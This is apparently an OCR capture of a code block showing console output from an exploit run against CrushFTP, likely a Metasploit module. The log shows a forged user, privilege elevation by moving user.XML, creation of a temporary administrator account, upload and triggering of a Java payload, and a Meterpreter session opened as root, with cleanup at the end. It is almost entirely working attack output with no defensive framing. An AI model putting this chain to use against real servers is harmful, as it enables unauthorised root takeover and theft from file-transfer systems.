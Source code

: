 ```
[*] The forged user will be `9721e30b7c`
[*] Moving user.XML from /home/ubuntu/CrushFTP10/home/readonly/writable1/ to `9721e30b7c` home folder and elevate privileges
[*] Logging out session cookie `1711131611903_PY71NprjquBlrPlZhYdnyk5JHGNfzo`
[*] Logging into the elevated account
[*] [do_login] Logging in with username `9721e30b7c` and password `7ae6ef77cf`
[+] Logged in! Now let's create a temporary admin account
[*] Logging out session cookie `1711131613590_9nhaTwXZIH9hpyGCnJkgCd9vKAZrEI`
[+] Administrator account created: username=4c07767049, password=1267096390
[*] [do_login] Logging in with username `4c07767049` and password `1267096390`
[*] Uploading payload .jar file `926f.jar` to /var/tmp/926f.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.96:4444
[*] Sending stage (57971 bytes) to 192.168.101.96
[+] Deleted /home/ubuntu/CrushFTP10/home/readonly/writable1/e5d3f50f45
[+] Deleted /var/tmp/926f.jar
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js
[*] Meterpreter session 14 opened (10.4.227.33:50007 -> 192.168.101.96:4444) at 2024-03-22 19:20:23 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : ip-10-10-0-10
OS              : Linux 6.5.0-1014-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```



